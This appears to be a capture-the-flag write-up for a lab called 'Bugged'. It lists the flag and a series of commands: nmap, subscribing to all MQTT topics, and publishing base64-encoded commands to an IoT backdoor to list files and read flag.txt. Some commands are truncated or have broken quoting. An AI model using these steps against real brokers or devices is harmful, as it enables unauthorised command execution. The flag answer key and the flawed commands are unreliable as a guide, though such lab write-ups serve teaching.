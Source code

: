 # <div align="center">Bugged</div>
<br>
<div align="center">John likes to live in a very Internet connected world. Maybe too connected...</div><br>
<div align="center">
<img src="https://github.com/user-attachments/assets/bc6de6eb-0839-405b-a33b-165c46c3393a" height="180"></img>
</div>

## Task 1. Analyze the network

John was working on his smart home appliances when he noticed weird traffic going across the network. Can you help him figure out what these weird network communications are?

### What is the flag?
```
flag{18d44fc0707ac8dc8be45bb83db54013}
```
```
sudo nmap -sV -sC <IP>
sudo apt-get install mosquitto mosquitto-clients -y
mosquitto_sub -t "#" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==" | base64 -d
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "simple_massage" -h <IP>
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=" | base64 -d
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "e2lkOiAiY2RkMWIxYzDigJMxYzQw4oCTNGIwZi04ZTIy4oCTNjFiMzU3NTQ4YjdkIiwgY21kOiAiQ01EIiwgYXJnOiAibHMifQ==" -h <IP>
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbij9" | base64 -d
echo "{"id": "cdd1b1c0–1c40–4b0f-8e22–61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}" | base64
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "e2lkOiBjZGQxYjFjMOKAkzFjNDDigJM0YjBmLThlMjLigJM2MWIzNTc1NDhiN2QsIGNtZDogQ01E
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3suLi4uLi4uLi4ufSJ9" | base64 -d
```
